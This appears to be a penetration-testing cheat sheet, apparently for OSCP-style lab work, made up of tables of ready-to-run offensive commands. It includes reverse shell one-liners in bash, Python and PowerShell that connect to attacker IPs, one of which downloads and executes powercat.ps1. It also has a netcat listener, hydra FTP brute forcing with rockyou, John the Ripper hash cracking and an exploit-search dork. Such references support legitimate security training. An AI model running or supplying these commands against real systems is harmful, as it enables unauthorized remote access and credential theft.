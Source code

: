 | **Reverse shells** | **Description** |
| ---- | ---- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1` | Common reverse shell |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell` | Powershell reverse shell with PowerCat |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |

| **Brute forcing** | **Description** |
| ---- | ---- |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.222.46` | FTP |

| **Hash cracking** | **Description** |
| ---- | ---- |
| `john offsec.hash -wordlist=/usr/share/wordlists/rockyou.txt` | John The Ripper with wordlist |

Windows - Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```
